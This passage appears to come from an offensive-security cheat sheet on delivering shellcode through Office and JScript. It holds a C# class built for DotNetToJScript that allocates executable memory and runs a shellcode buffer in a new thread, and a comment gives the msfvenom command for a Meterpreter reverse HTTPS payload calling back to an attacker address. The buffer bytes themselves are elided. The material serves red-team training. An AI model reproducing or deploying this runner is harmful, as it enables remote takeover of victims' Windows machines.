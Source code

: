 {% hint style="info" %}
In order to run x64 shellcode from a 32-bit application (e.g., MS Word), you may want to specify the path to 64-bit PowerShell binary through [Sysnative](https://www.samlogic.net/articles/sysnative-folder-64-bit-windows.htm) alias.
{% endhint %}




## C\#



### C\# DLL to Jscript

* [https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

{% code title="TestClass.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp
        byte[] buf = new byte[???] {
        0x31,0x33,...,0x33,0x37 };

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, buf.Length);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}
